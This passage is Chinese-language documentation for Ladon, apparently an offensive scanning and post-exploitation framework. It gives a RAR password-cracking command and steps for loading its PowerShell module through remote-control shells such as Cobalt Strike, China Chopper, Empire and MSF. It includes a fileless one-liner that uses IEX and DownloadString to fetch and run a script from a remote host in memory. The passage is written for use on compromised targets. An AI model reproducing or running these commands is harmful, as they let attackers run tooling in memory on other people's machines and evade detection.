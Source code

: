 ##### 文件密码
因Rar压缩包只需一个密码,故只需pass.txt,注意中文密码需将txt保存为Ansi编码
命令: Ladon test.rar RarScan

## PowerShell
PowerLadon完美兼容win7-win10 PowerShell，对于不支持.net程序插件化的远控，可使用
PowerShell版,也可CMD命令行下远程加载内存实现无文件扫描，模块加载后用法和EXE一致。

#### 0x001 PowerShell本地加载
适用于支持PowerShell交互远控或Shell，如Cobalt Strike
```Bash
> powershell 
> Import-Module .\Ladon.ps1
> Ladon OnlinePC
```
<img src=http://k8gege.org/k8img/Ladon/PowerLadon.gif></img>

#### 0x002 Cmd本地加载
适用于还没跟上时代的远控或Shell只支持CMD交互
```bash
> powershell Import-Module .\Ladon.ps1;Ladon OnlinePC
```
<img src=http://k8gege.org/k8img/Ladon/ps/CmdPSLadon.gif></img>

#### 0x003 Cmd远程加载
适用于还没跟上时代的远控或Shell只支持CMD交互
```bash
> powershell "IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.5:800/Ladon.ps1'); Ladon OnlinePC"
```
<img src=http://k8gege.org/k8img/Ladon/ps/CmdPSRemoteLadon.gif></img>

#### 0x004 远控交互式CMD
<img src=http://k8gege.org/k8img/Ladon/ps/psladon_rat.PNG></img>

#### 0x005 菜刀非交互CMD
<img src=http://k8gege.org/k8img/Ladon/ps/psladon_cd.PNG></img>

#### 0x006 Empire非交互CMD
Empire的shell有点问题，分号被截断，可以加个cmd /c
<img src=http://k8gege.org/k8img/Ladon/ps/psladon_empire.PNG></img>

#### 0x007 MSF交互式CMD


### 高级用法
Ladon最初的设计就是一款扫描框架，为了方便才内置功能
毕竟需要使用一个功能就得在目标多上传一个文件是顶麻烦的
不像MSF框架和模块多大都无所谓，因为你只是在本地使用
为了让大家都可以自定义模块，Ladon插件支持多种编程语言
最菜可通过INI配置插件，了解HTTP可通过EXP生成器生成POC
懂得编程可使用C#、Delphi、VC编写DLL，PowerShell脚本
